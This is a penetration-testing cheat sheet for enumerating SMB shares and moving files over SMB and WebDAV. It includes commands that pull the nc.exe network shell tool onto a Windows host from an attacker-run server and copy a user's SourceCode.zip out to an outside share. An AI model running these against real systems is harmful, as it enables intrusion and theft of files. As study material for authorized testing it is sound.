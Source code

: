 #### Shares
```shell
smbclient -L '\\<IP>'
```

```shell
smbclient -N '\\<IP>\<share>\'
```

```shell
smbclient -U <users> -L '\\<IP>\\<sharename>'
```

```shell
smbclient -U <user> '\\<IP>\\<sharename>'
```
#### SMBmap
```shell
smbmap -H <IP>
```

## SMB Downloads
#### Create the SMB Server
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
#### Copy a File from the SMB Server
```cmd
copy \\192.168.220.133\share\nc.exe
```
#### Create the SMB Server with a Username and Password
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
#### Mount the SMB Server with Username and Password
```cmd
net use n: \\192.168.220.133\share /user:test test
```
```
copy \\192.168.220.133\share\nc.exe
```
## SMB Uploads
### WebDav
```shell
sudo pip3 install wsgidav cheroot
```
#### WebDav Python
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Webdav Share
```cmd
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

